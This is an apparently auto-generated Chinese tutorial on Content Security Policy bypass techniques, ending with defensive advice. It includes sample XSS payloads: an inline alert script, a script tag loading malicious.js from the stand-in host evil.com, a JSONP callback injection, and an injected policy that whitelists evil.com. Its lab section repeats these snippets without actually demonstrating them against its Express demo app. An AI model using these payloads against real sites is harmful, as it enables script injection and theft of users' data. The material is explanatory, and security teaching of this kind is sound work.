 # CSP策略绕过技术的基本概念

## 1. 引言

内容安全策略（Content Security Policy，CSP）是一种用于防止跨站脚本攻击（XSS）等安全威胁的浏览器安全机制。通过定义允许加载的资源来源，CSP可以有效减少恶意脚本的执行。然而，CSP并非绝对安全，攻击者可以通过各种技术绕过CSP策略，执行恶意代码。本文将深入探讨CSP策略绕过技术的基本原理、类型、危害以及实战演练。

## 2. CSP策略的基本原理

CSP通过HTTP响应头或`<meta>`标签定义，指定哪些资源可以被加载和执行。常见的CSP指令包括：

- `default-src`：定义默认的资源加载策略。
- `script-src`：定义允许加载的脚本来源。
- `style-src`：定义允许加载的样式表来源。
- `img-src`：定义允许加载的图片来源。
- `connect-src`：定义允许的连接（如AJAX请求）来源。

例如，以下CSP策略允许加载来自同一域名的脚本和样式表：

```
Content-Security-Policy: default-src 'self'; script-src 'self'; style-src 'self';
```

## 3. CSP策略绕过技术的基本原理

CSP策略绕过技术的基本原理是利用CSP策略中的漏洞或配置不当，绕过限制，执行恶意代码。常见的绕过技术包括：

### 3.1. 利用宽松的CSP策略

如果CSP策略过于宽松，攻击者可以利用允许的来源执行恶意代码。例如，如果`script-src`允许`'unsafe-inline'`，攻击者可以直接在页面中插入内联脚本。

### 3.2. 利用CSP策略中的漏洞

某些CSP实现可能存在漏洞，允许攻击者绕过策略。例如，某些浏览器可能错误地解析CSP指令，导致策略失效。

### 3.3. 利用第三方资源

如果CSP策略允许加载第三方资源，攻击者可以利用这些资源执行恶意代码。例如，攻击者可以注入恶意脚本到允许的第三方域名中。

## 4. CSP策略绕过技术的类型

### 4.1. 内联脚本绕过

如果CSP策略允许`'unsafe-inline'`，攻击者可以直接在页面中插入内联脚本。

```html
<script>alert('XSS');</script>
```

### 4.2. 外部脚本绕过

如果CSP策略允许加载外部脚本，攻击者可以将恶意脚本托管在允许的域名上，并通过`<script>`标签加载。

```html
<script src="https://evil.com/malicious.js"></script>
```

### 4.3. JSONP绕过

JSONP（JSON with Padding）是一种跨域数据获取技术，攻击者可以利用JSONP回调函数执行恶意代码。

```html
<script src="https://example.com/api?callback=alert('XSS')"></script>
```

### 4.4. CSP策略注入

如果CSP策略可以通过用户输入动态生成，攻击者可以注入恶意CSP指令，绕过现有策略。

```http
Content-Security-Policy: default-src 'self'; script-src 'self' https://evil.com;
```

## 5. CSP策略绕过技术的危害

CSP策略绕过技术可能导致以下危害：

- **跨站脚本攻击（XSS）**：攻击者可以执行恶意脚本，窃取用户数据或进行其他恶意操作。
- **数据泄露**：攻击者可以通过绕过CSP策略，窃取敏感数据。
- **权限提升**：攻击者可以利用绕过技术，提升权限，执行更高权限的操作。

## 6. 实战演练

### 6.1. 实验环境搭建

为了演示CSP策略绕过技术，我们需要搭建一个简单的Web应用环境。

#### 6.1.1. 安装Node.js和Express

首先，安装Node.js和Express框架。

```bash
npm install express
```

#### 6.1.2. 创建Web应用

创建一个简单的Express应用，设置CSP策略。

```javascript
const express = require('express');
const app = express();

app.use((req, res, next) => {
    res.setHeader("Content-Security-Policy", "default-src 'self'; script-src 'self'");
    next();
});

app.get('/', (req, res) => {
    res.send(`
        <html>
            <body>
                <h1>Welcome to CSP Test</h1>
                <script>alert('Safe Script');</script>
            </body>
        </html>
    `);
});

app.listen(3000, () => {
    console.log('Server running on http://localhost:3000');
});
```

### 6.2. 攻击步骤

#### 6.2.1. 内联脚本绕过

如果CSP策略允许`'unsafe-inline'`，攻击者可以直接插入内联脚本。

```html
<script>alert('XSS');</script>
```

#### 6.2.2. 外部脚本绕过

如果CSP策略允许加载外部脚本，攻击者可以将恶意脚本托管在允许的域名上，并通过`<script>`标签加载。

```html
<script src="https://evil.com/malicious.js"></script>
```

#### 6.2.3. JSONP绕过

攻击者可以利用JSONP回调函数执行恶意代码。

```html
<script src="https://example.com/api?callback=alert('XSS')"></script>
```

#### 6.2.4. CSP策略注入

如果CSP策略可以通过用户输入动态生成，攻击者可以注入恶意CSP指令。

```http
Content-Security-Policy: default-src 'self'; script-src 'self' https://evil.com;
```

## 7. 防御措施

为了防止CSP策略被绕过，可以采取以下措施：

- **严格限制资源来源**：避免使用`'unsafe-inline'`和`'unsafe-eval'`，严格限制允许加载的资源来源。
- **使用nonce和hash**：通过使用nonce或hash值，限制内联脚本的执行。
- **定期审查CSP策略**：定期审查和更新CSP策略，确保其安全性。
- **使用CSP报告机制**：启用CSP报告机制，监控策略违规行为。

## 8. 结论

CSP策略绕过技术是Web安全中的一个重要议题。通过深入理解CSP策略的基本原理和绕过技术，可以更好地防御相关攻击。在实际应用中，应严格配置CSP策略，定期审查和更新，确保其有效性。同时，结合其他安全措施，如输入验证、输出编码等，可以进一步提升Web应用的安全性。

---

*文档生成时间: 2025-03-11 15:51:20*
